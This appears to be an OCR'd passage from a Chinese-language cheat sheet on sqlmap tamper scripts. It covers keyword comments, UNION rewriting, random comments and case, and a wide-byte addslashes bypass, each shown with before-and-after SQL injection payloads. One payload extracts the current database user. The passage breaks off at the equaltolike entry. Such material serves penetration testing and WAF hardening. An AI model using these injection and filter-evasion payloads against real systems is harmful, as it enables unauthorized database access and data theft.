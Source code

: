 ``` 

作用：关键字前加注释

示例：

value’ UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND ‘QDWa’='QDWa 
value’/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)), NULL, NULL#/*!0AND ‘QDWa’='QDWa

版本要求:

MySQL < 5.1
在以下版本做过测试:
MySQL 4.0.18, 5.0.22

5:unionalltounion.py

作用：替换UNION ALL SELECT UNION SELECT

示例：

'-1 UNION ALL SELECT'
'-1 UNION SELECT'

版本要求: all

6:randomcomments.py

作用：用/**/分割sql关键字

‘INSERT’
‘IN//S//ERT’

7:unmagicquotes.py

作用：宽字符绕过 GPC addslashes

示例：

1’ AND 1=1 
 1%bf%27 AND 1=1–%20
8:randomcase.py

作用：随机大小写

示例：
INSERT
InsERt
在以下版本做过测试:

Microsoft SQL Server 2005
MySQL 4, 5.0 and 5.5
Oracle 10g
PostgreSQL 8.3, 8.4, 9.0

针对过滤比较符号的：

1:equaltolike.py

作用：like 代替等号

示例：
```